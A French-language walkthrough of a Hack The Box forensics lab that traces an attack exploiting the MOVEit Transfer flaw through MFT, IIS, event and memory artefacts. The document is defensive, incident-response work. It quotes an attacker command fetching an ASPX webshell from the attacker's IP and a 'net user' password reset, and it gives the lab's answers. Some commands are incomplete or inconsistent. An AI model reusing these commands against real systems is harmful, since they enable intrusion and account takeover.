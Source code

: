 # Sherlock / SOC / CTI / DFIR / IR Exercice

## Title: I-like-to

## Date: 09/10/2025

## Objective:
Le but de la chasse est d'analyser le CVE **MOVEit** dans notre systeme Windows et d'identifier leur actions malveillants pour aider à notre equipe de SOC. On a toute les sources **triage** avec les artefacts nécessaires. Voila

La vulnerabilité: `MOVEit`

## Environment / Tools Used:
* HTB Sherlocks:
* Event Viewer, strings.exe, MFTECmd.exe, Timeline Explorer, Chainsaw, grep, Powershell

## Investigation Steps:
1. Analyser les informations disponiblees dans Triage.
2. Trouver les informations sur l'Internet: **Moveit** vulnerabilité

## Findings:
1. On doit trouver le fichier: `ASPX` téléchargé par l'attaquant:
    - Pour trouver cette information, on a la source: **$MFT**
    - Ma solution: 1-> `convertir $MFT à CSV par MFTECmd.exe`; 2-> `Ouvrir cela par Timeline Explorer`
        - `.\MFTECmd.exe -f '$MFT' --csv C:\Users\vboxuser\Desktop\ --csvf mtf_parsed.csv`
    - Quand on a analysé avec `Timeline Explorer` et a recherché les fichiers: `.aspx`
    - On a trouvé qu'il y a un fichier: `move.aspx` téléchargé par l'attaquant à location: `MOVEitTransfer\wwwroot`
    - C'est suspect pour nous.
    - Voilà, la preuve:
    ![Le fichier malveillant](images/1.png)

2. On doit trouver l'IP addresse de l'attaquant:
    - Pour trouver cette information, on a la source pour utiliser: `I-like-to-27a787c5.vmem`
        - Ce fichier est `dumped` mais on ne peut utiliser cela avec **Volatility3** car il n'a pas `.vmss` partie de fichier.
    - Donc, on peut utiliser l'outil: **strings** pour trouver quelque information avec le fichier (script) malveillant **move.aspx**.
    - On a utilisé cette commande: `strings I-like-to-27a787c5.vmem | grep "move.aspx"`
        - Il nous a donné l'information de l'IP addresse de l'attaquant: `10.255.254.3`
    - Voilà, la preuve:
    ![L'IP Addresse de l'attaquant](images/2.png)

3. On doit trouver *User Agent* utilisé par l'attaquant
    - On a la source: `Web Service Logs` et on peut utiliser cela:
    - Quand on a analysé le fichier: `u_ex230712`, on a trouvé que l'attaquant utilisé le logiciel: `Ruby` pour demander les info avec `GET` methode
    - Voilà, la preuve:
    ![User Agent](images/3.png)

4. Maintenant, on doit trouver le temps téléchargé du fichier: `move.aspx`
    - Quand on a analysé la source: `$MFT` avec le mot clé: `move.aspx`
    - On a trouvé qu'il est créé le `2023/07/12 11:24:30`
    - Voilà, la preuve: Voila
    ![Le temps téléchargé du fichier malveillant](images/4.png)

5. On doit trouver la taille du fichier téléchargé par l'attaquant:
    - Ma méthode: Convertir le `$MFT` au `jason` fichier en utilisant `PowerShell`
        - `$mft=Get-Content "$MFT" | ConvertFrom-Json`
        - `$mft | Where-Object {$_.FileName -eq "movit.asp"} | Select-Object FileName, FileSize`
    - On connaît que `.asp` est l'ancienne version par rapport à l'autre.
    - Ensuite, j'ai obtenu la taille du fichier: `1362`
    - Voilà, la preuve:
    ![La taille](images/5.png)

6. On doit trouver l'outil utilisé par l'attaquant pour faire une énumération initiale:
    - Quand on a analysé le logs Web Server: `u_ex230712`, on a trouvé l'outil qui utilisé souvent pour faire les fins des énumérations initiales
    - Cet outil: `Nmap`
    - Voilà, la preuve:
    ![L'outil utilisé pour énumérations initiales](images/6.png)

7. On suspect que l'attaquant peut-être modifier le mot de passe du compte: `moveitsvc`
    - Pour trouver cette information, on doit utiliser l'ID événement: `4724` qui montre la modification ou reset du mos de passe du compte.
    - Quand on a analyser le fichier: `Security.evtx` avec l'outil: `Event Viewer`
    - On a trouvé que ce événement s'est passé le `2023-07-12 11:09:27`
    - Voilà, la preuve:
    ![La date de la modification](images/7.png)

8. L'attaquant fait une connexion remote et on doit trouver quel logiciel il a utilisé pour cela:
    - D'abbord, on connaît que l'exploitation de systeme est Windows et donc le logiciel: `RDP` et souvent utilisé.
    - On analyse la source: `Security.evtx` et on recherche l'ID: `4624` avec `Logon Type: 10` qui montre `RemoteDesktopConnection`.
    - L'outil: `Event Viewer` >> J'ai modifié le *XML* filtre et Alors
    - J'ai trouvé que le logiciel utilisé est vraiment **RDP**
    - Voilà, la preuve:
    ![Le logiciel remote](images/8.png)

9. Maintenant, on doit trouver la date de connexion par l'attaquant par **RDP**
    - Quand on a analysé la source: `Security.evtx` avec le filtre: `4624` et `Logon Type 10`, on a trouvé deux événements et
    - La date: `2023-07-12 11:11:18`
    - Voilà, la preuve:
    ![La date de connexion](images/9.png)

10. On doit trouver le *User Agent* de l'attaquant:
    - Quand on a analysé la source: **ISS Logs**, on a trouvé le fichier: `u_ex230712`
    - Dans ce fichier, il y une information de **User Agents**.
    - Plus précisement, on connaît que le webshell: `move.aspx` et donc son `User Agent` est nécessaire pour nous.
    - On a trouvé que le *User Agent* est `Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0`
    - Voilà, la preuve:
    ![User Agent](images/10.png)

11. On doit trouver l'inst ID de l'attaquant
    - Pour trouver cette information, on doit analyser la source: `moveit.sql` dans `Triage/uploads/moveit.sql`
    - J'ai utilisé le **MariaDB** avec cette commande:
        ```SQL
            select LogTime, InstID, Username,IPAddress, FileName, FolderPath,
        ```
	- Ensuite, on a trouvé que l'inst ID: `1234` est associé avec l'attaquant
    ![InstID](images/11.png)

12. On doit la commande utilisé par l'attaquant pour récupérer *webshell*
    - On connaît que on peut utiliser la source: `Powershell Logs: ConsoleHost_history.txt`
    ```powershell
        notepad.exe 'Z:\tmp\cyberla\Triage\uploads\auto\C%3A\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\C        onsoleHost_history.txt'
    ```
    - Quand on a analysé l'utilisateur: `moveitsvc` >> on a trouvé cette commande:
        - `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`
    - Voilà, la preuve:
    ![La Commande pour récupérer webshell](images/12.png)


13. Maintenant, on doit trouver le titre écrit par TA:
    - D'abbord, on a recherché les événements avec `.evtx` mais il n'y a pas les infos:
    - Plus précisement, on connaît que le webshell: `move.aspx` et donc son contenu est nécessaire pour nous.
    ```bash
        grep -A15 -B15 move.aspx findings.txt | more
    ```
    - On recherché le mot clé: `title` et a trouvé ce titre: `awen asp.net webshell`
    - Voilà, la preuve:
    ![Titre](images/13.png)

14. On doit trouver le mot de passe modifié par TA
    - Pour trouver cette info: on a analysé: **Powershell Logs: ConsoleHost_history.txt** mais il n'y a pas.
    - On a la source: `i-like-to.vmem` et on peut analyser cette mémoire.
    - Le moment clé est que on doit rechercher le compte: `moveitsvc`
    - L'outil: **strings** et `grep`, `sort,` `uniq`. Mes commandes:
    ```bash
	    strings i-like-to.vmem > findings.txt
	    grep moveitsvc findings.txt | sort | uniq -c | sort -n
    ```
    - Après, on a analysé la source: `i-like-to.vmem` et a trouvé la commande: `net user` qui peut-être utilisé pour modifier le mot de passe de compte.
    - Et cela est notre réponse: `net user 5trongP4ssw0rd`
    - Voilà, la preuve:
    ![Le mot de passe modifié](images/14.png)

## Key Learning / Takeaway:
1. Les fichiers: **.aspx** >> webshell >> ils peuvent contenir script pour le framework Microsoft: **ASP.NET**
    - *une page web générée à l'aide du framework Microsoft ASP.NET exécuté sur des serveurs web*
    - *asp* est 'ancienne version et *aspx* est nouvelle version.

2. Event ID`4724` est d'enregistrer quand le mot de passe compte est essayé de modifier par quelqu'un. Voila

3. La vulnerabilité: **MOVEitTransfer** avec l'attaque: **SQL Injection**

## Voilà:
- **Voilà, ça y est, c'est fini:** `https://labs.hackthebox.com/achievement/sherlock/2118023/553`
